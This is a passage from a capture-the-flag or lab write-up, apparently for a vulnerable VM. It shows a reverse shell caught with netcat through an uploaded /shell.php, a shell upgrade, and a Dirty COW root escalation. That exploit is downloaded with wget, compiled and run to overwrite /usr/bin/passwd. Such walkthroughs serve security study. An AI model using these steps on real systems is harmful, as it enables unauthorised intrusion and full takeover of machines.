 Hit `/shell.php` and you'll get your shell!

```console
root@kali:/var/www/html# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.67] from (UNKNOWN) [192.168.1.68] 39308
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 22:20:52 up  1:22,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
waldo    pts/0    tmux(722).%0     20:57    1:23m  0.39s  0.39s irssi
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$
```

---

## Privilege escalation

There are two different ways to get root, one through dirty cow, and another
by escalating privileges to waldo then wallaby.


#### Dirty cow

[cowroot.c](http://cowroot.c/) worked fine. You can prevent kernel from crashing
[too](https://github.com/dirtycow/dirtycow.github.io/issues/25#issuecomment-255852675).
This is not the expected method to get root access though.

```console
www-data@ubuntu:/$ cd /tmp
cd /tmp
www-data@ubuntu:/tmp$ wget https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
<fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
...
Length: 4688 (4.6K) [text/plain]
Saving to: 'cowroot.c'

cowroot.c           100%[===================>]   4.58K  --.-KB/s    in 0s

2017-01-02 22:27:42 (9.57 MB/s) - 'cowroot.c' saved [4688/4688]

www-data@ubuntu:/tmp$ gcc cowroot.c -o cowroot -pthread
...
www-data@ubuntu:/tmp$ ./cowroot
./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 54256
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@ubuntu:/tmp#  echo 0 > /proc/sys/vm/dirty_writeback_centisecs
 echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@ubuntu:/tmp# whoami
whoami
root
```
